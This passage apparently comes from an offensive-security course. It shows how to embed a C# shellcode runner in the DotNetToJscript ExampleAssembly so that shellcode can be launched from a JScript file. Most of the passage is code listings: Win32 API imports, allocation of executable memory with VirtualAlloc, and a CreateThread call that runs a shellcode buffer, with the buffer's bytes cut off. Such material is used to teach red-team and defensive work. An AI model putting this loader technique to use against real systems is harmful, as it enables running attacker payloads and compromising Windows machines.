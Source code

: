 Now that we have the C# shellcode runner working, we must modify the ExampleAssembly project in DotNetToJscript to execute the shellcode runner instead of the previous simple proof of concept code. We'll also generate a Jscript file with the compiled assembly so we can launch the shellcode runner directly from Jscript.

As mentioned earlier, any declarations using DllImport must be placed in the relevant class, but outside the method it is used in. In this case, we need to put them in the _TestClass_ class, shown below. We've also added the needed namespaces at the beginning of the project with the "using" keyword followed by the namespace:

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, 
      uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, 
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

...
```

> Listing 33 - Win32 APIs imported in ExampleAssembly

Next, we'll add the same shellcode and method calls inside the _TestClass_ method as in our standalone project:

```
public TestClass()
{
      byte[] buf = new byte[626] {
          0xfc,0x48,0x83,0xe4,0xf0,0xe8...

      int size = buf.Length;

      IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

      Marshal.Copy(buf, 0, addr, size);

      IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

      WaitForSingleObject(hThread, 0xFFFFFFFF);
}
```
